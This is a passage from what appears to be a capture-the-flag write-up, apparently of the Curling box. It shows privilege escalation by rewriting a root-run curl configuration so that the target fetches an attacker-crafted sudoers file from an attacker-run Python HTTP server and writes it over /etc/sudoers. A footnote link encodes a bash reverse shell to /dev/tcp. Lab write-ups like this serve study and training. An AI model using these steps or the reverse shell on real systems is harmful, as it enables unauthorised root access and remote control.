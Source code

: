 ```
# --- Example file ---
		# this is a comment
		url = "example.com"
		output = "curlhere.html"
		user-agent = "superagent/1.0"
```

#### Get root using sudoers

Prepare sudoers host:

```bash
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root    ALL=(ALL:ALL) ALL
floris  ALL=(ALL:ALL) ALL

# Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL
```

Modify input:

```bash
url = "10.10.17.201/sudoers"
output = "/etc/sudoers"
user-agent = "superagent/1.0"
```

Serve sudoers:

	sudo python -m SimpleHTTPServer 80

```bash
Serving HTTP on 0.0.0.0 port 80 ...
10.129.79.91 - - [10/Jul/2021 16:23:01] "GET /sudoers HTTP/1.1" 200 -
 3
```


[^1]: https://www.exploit-db.com/exploits/46200
[^2]: https://www.cvedetails.com/vulnerability-list/vendor_id-3496/Joomla.html
[^3]: https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.0.0.1%2F8080+0%3E%261
[^4]: https://stackoverflow.com/questions/42884087/how-and-when-to-use-dev-shm-for-efficiency